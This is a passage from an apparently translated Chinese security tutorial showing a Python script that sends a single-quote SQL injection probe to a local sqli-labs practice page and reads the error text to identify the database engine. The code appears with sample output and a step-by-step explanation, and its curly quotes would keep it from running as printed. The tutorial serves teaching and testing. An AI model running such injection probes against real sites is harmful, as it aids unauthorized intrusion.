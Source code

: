 因此，我们之前已经看过 XSS 和错误消息的模糊处理。这一次，我们做的是类似的事情，但是用 SQL 注入代替。任何 SQLi 的关键都始于一个单引号，勾号或撇号，取决于您个人选择的单词。我们将一个撇号扔进目标 URL 中，并检查响应，以查看如果成功，正在运行的 SQL 版本是什么。

我们将创建一个脚本，将基本的 SQL 注入字符串发送到我们的目标 URL，记录输出，并与错误消息中已知的短语进行比较，以识别底层系统。

## 如何做…

我们将使用的脚本如下：

```py
import requests

url = “http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=”
initial = “'”
print “Testing “+ url
first = requests.post(url+initial)

if “mysql” in first.text.lower(): 
  print “Injectable MySQL detected”
elif “native client” in first.text.lower():
  print “Injectable MSSQL detected”
elif “syntax error” in first.text.lower():
  print “Injectable PostGRES detected”
elif “ORA” in first.text.lower():
  print “Injectable Oracle detected”
else:
  print “Not Injectable J J”
```

使用此脚本时产生的输出示例如下：

```py
Testing http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=
Injectable MySQL detected

```

## 工作原理…

我们导入我们的库并手动设置我们的 URL。如果需要，我们可以将其设置为`sys.argv`变量；但是，我在这里将其硬编码为了显示预期的格式。我们将初始注入字符串设置为单引号，并打印测试正在开始：

```py
url = “http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=”
initial = “'”
print “Testing “+ url
```

我们将我们的第一个请求作为我们提供的 URL 和撇号：

```py
first = requests.post(url+initial)
```

接下来的几行是我们的检测方法，用于识别底层数据库是什么。MySQL 标准错误是：

```py
You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version for the
right syntax to use near '\'' at line 1

```
